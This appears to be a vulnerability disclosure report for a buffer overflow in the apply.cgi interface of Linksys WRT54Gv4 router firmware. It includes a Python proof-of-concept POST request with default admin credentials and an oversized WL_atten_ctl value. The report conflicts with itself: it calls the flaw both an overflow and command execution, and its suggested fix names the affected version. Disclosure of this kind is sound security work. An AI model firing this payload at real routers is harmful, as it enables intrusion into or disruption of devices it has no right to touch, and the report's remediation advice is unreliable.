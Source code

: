 # CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **WL_atten_ctl**  and **WL_atten_radio** passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "WL_atten_bb": "1",
    "WL_atten_radio": "1",
    "WL_atten_ctl": "a"*90,
    "WL_delay":"1"
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the WL_atten_ctl value. It enters system execution, resulting in a command execution vulnerability.

![image-20250226211642419](https://github.com/user-attachments/assets/c0b72818-f526-4328-935c-9cd6f3135f37)


## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

